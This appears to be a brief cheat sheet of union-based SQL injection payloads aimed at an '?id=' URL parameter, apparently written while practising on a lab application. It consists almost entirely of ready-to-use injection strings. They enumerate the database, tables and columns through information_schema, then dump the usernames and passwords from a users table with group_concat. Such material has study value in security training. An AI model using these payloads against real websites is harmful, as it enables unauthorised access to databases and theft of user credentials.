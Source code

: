 # basic SQL Injection
    ?id=999' union select 1, current_version, 5 --+

    select table_name from information_schema.tables where table_schema="security";

    /?id=999' union select 1,table_name, 5 from information_schema.tables where table_schema=database() limit 2,1 --+

    select column_name from information_schema.columns where table_name='users';

    (USER,CURRENT_CONNECTIONS,TOTAL_CONNECTIONS,id,username,password)

    /?id=999' union select 1,group_concat(username), 5 from users --+

    /?id=999' union select 1,group_concat(username), group_concat(password) from users --+

    select 1,group_concat(username), 5 from users

    /?id=999' union select 1,group_concat(column_name), 5 from information_schema.columns where table_name='users' --+

    (Dumb,Angelina,Dummy,secure,stupid,superman,batman,admin,admin1,admin2,admin3,dhakkan,admin4)

    /?id=999' union select 1,group_concat(table_name), 5 from information_schema.tables where table_schema=database()--+

    /?id=999' union select 1, user(), 5 --+

    select 1, database()


